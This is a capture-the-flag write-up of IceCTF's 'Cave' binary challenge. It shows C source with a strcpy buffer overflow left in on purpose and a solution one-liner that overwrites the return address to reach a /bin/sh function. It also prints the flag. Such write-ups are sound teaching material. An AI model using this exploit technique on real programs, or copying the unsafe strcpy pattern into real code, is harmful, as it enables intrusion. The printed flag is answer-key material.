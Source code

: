 ```yaml
---
layout: writeup
title: 'Cave'
level:
difficulty:
points: 50
categories: [binary]
tags: []
flag: IceCTF{i_dont_think_caveman_overflowed_buffers}
---
```

## Challenge

You stumbled upon a cave! I've heard some caves hold secrets.. can you
find the secrets hidden within its depths?

    #define _GNU_SOURCE
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>

    void shell() {
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
        system("/bin/sh -i");
    }

    void message(char *input) {
        char buf[16];
        strcpy(buf, input);

        printf("The cave echoes.. %s\n", buf);
    }

    int main(int argc, char **argv) {
        if (argc > 1){
            message(argv[1]);
        } else {
            printf("Usage: ./shout <message>\n");
        }
        return 0;
    }
{: .language-c}

## Solution

Another buffer overflow challenge, this time we need to overwrite the
return address to call the `shell()` function.
First we need to find out what that address should be, we can do this
with gdb's `info functions shell` or
`objdump -d ./shout | grep shell` and find out that the address is
`0x0804850b`

So we need to overwrite the return address with this address, in little
endian order:

    ./shout `python -c "print('a'*28+'\x0b\x85\x04\x08')"`

this gives us a root shell and we can read the contents of `flag.txt` to
read our flag:

## Flag

    IceCTF{i_dont_think_caveman_overflowed_buffers}

